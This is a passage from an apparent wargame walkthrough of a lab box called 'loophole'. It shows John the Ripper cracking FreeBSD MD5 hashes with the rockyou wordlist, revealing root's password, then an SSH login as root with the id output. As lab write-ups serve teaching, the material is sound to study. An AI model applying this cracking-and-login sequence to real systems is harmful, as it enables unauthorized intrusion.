 We then follow up using the --wordlist option and use /pentest/passwords/wordlists/rockyou.txt as our wordlist, which cracks the passwords for root and tskies:

```
root mugbear.maximera ~/wargames/loophole
# /pentest/passwords/john/john --wordlist=/pentest/passwords/wordlists/rockyou.txt garbage.txt 
Loaded 3 password hashes with 3 different salts (FreeBSD MD5 [128/128 SSE2 intrinsics 4x])
Remaining 2 password hashes with 2 different salts
nostradamus      (tskies)
albatros         (root)
guesses: 2  time: 0:00:00:23 DONE (Wed Aug 29 02:05:20 2012)  c/s: 3824  trying: aldershot - alan
Use the "--show" option to display all of the cracked passwords reliably
```

Having obtained the root password, we are able to successfully login to the server:

```
root mugbear.maximera ~/wargames/loophole
# ssh root@10.8.7.2
The authenticity of host '10.8.7.2 (10.8.7.2)' can't be established.
RSA key fingerprint is 78:14:ca:10:4d:e9:57:d0:52:a5:99:75:02:e7:30:33.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.8.7.2' (RSA) to the list of known hosts.
 
 
 
 
           ===========================================================
                             WELCOME TO RATTUS LABS
           ===========================================================
 
                You've been connected to loophole.rattus.lab 
 
              To access the system you must use valid credentials.
 
           ===========================================================
 
 
 
 
root@10.8.7.2's password: 
Last login: Wed Feb 16 11:20:48 2011
 
 
 
 
 
 
   ===========================================================
                     WELCOME TO RATTUS LABS
   ===========================================================
 
      I'm here to serve you MASTER ... 
 
   ===========================================================
 
 
[root@loophole]$  id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),17(audio),18(video),19(cdrom),26(tape),83(plugdev)
[root@loophole]$  
```
